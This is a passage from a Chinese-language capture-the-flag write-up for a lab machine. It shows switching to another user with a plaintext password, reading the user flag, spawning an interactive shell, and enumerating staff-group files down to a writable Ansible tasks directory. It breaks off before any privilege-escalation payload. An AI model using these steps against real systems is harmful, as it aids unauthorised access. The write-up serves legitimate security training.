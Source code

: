 
## flag: user

移动到用户phil：
```bash
frank@inject:/$ su phil
su phil
Password: DocPhillovestoInject123

id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)

cat ~/user.txt
1bf3……3bf1
```

*一开始 `su` 输入命令之后看终端没什么显示，还以为不行……然后SSH也连接失败。整得我以为卡了还直接Ctrl+C退出了*  
*不管咋的切换用户之后还是得id看一下啊……*  
*后来才知道原来简单执行 `bash -i` 就行*
```bash
bash -i
bash: cannot set terminal process group (789): Inappropriate ioctl for device
bash: no job control in this shell
phil@inject:~$ 
```


## Privilege Escalation

注意phil用户有个不寻常的组“50(staff)”。

直接find一下属于staff组的文件：
```bash
find / -group staff 2>/dev/null
/opt/automation/tasks
/root
/var/local
/usr/local/lib/python3.8
……
```

竟然有root，不过详细看了下其实staff组在root目录没有任何权限。  
那就看看下一个较可疑的文件/目录 `/opt/automation/tasks`。

先看看权限，staff组是有所有权限的：
```bash
drwxrwxr-x 2 root staff 4096 May 26 13:24 tasks/
```

tasks里面有个root权限的yml文件。这不是ansible嘛，正好自己有玩过
```yml
phil@inject:/opt/automation$ cd tasks
phil@inject:/opt/automation/tasks$ ll
-rw-r--r-- 1 root root   150 May 26 13:30 playbook_1.yml

phil@inject:/opt/automation/tasks$ cat playbook_1.yml
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```
